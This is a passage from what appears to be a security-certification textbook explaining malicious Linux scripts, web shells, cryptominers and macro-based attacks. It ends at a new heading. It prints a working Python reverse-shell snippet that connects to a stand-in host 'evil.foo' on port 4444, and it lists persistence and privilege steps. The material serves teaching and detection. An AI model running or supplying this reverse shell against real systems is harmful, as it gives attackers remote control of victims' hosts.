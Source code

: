 A [[malicious script]] running on a Linux host might attempt the following:

1.  Use commands such as whoami and ifconfig/ip/route to establish the local context.
2.  Download tools, possibly using wget or curl.
3.  Add crontab entries to enable persistence.
4.  Add a user to sudo and enable remote access via SSH.
5.  Change firewall rules using iptables.
6.  Use tools such as Nmap to scan for other hosts.

A very common vector for attacking Linux hosts is to use an exploit to install a web shell as a backdoor ([acunetix.com/blog/articles/introduction-web-shells-part-1](https://www.acunetix.com/blog/articles/introduction-web-shells-part-1/)). Typical code to implement a reverse shell (connecting out to the machine at evil.foo on port 4444) is as follows:

s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)

s.connect(("evil.foo",4444))

os.dup2(s.fileno(),0)

os.dup2(s.fileno(),1)

os.dup2(s.fileno(),2)

pty.spawn("/bin/sh")'

The os.dup2 statements redirect the **terminal's data streams stdin (0), stdout (1), and stderr (2) to the socket object (s).** The pty module provides a library of functions for managing a pseudo-terminal, in this case starting the shell process at /bin/sh.

The code to implement a shell can be obfuscated in numerous ways. One way to identify malicious scripts trying to match code samples is to scan the file system against a **configuration baseline,** either using file integrity monitoring or use of the Linux diff command. 

A common exploit for a vulnerable web server is to upload a cryptominer, misusing the server's CPU resources to try to obtain new cryptocurrency. You can use Linux utilities such as top and free to diagnose excessive CPU and memory resource consumption by such malware.

This F5 white paper describes the use of Bash and Python attack tools ([f5.com/labs/articles/threat-intelligence/attackers-use-new--sophisticated-ways-to-install-cryptominers](https://www.f5.com/labs/articles/threat-intelligence/attackers-use-new--sophisticated-ways-to-install-cryptominers)).
# MACROS AND VISUAL BASIC FOR APPLICATIONS (VBA)

A **document macro is a sequence of actions performed in the context of a word processor, spreadsheet, or presentation file.** While the user may be able to record macro steps using the GUI, ultimately macros are coded in a scripting language. Microsoft Office uses the Visual Basic for Applications (VBA) language, while PDF documents use JavaScript. Microsoft Office document macros can be inspected using ALT+F11. **Other vendors and open-source software also implement macro functionality, using languages such as Basic or Python.**

A malicious actor will try to use a macro-enabled document to execute arbitrary code. For example, a Word document could be the vector for executing a malicious PowerShell script. Macros are disabled by default in Office, but the attacker may be able to use a social engineering attack to get the user to change the policy.

With PDF, the JavaScript might be embedded within the document and designed to exploit a known vulnerability in the reader software to execute without authorization ([sentinelone.com/blog/malicious-pdfs-revealing-techniques-behind-attacks](https://www.sentinelone.com/blog/malicious-pdfs-revealing-techniques-behind-attacks/)).
# MAN-IN-THE-BROWSER ATTACK
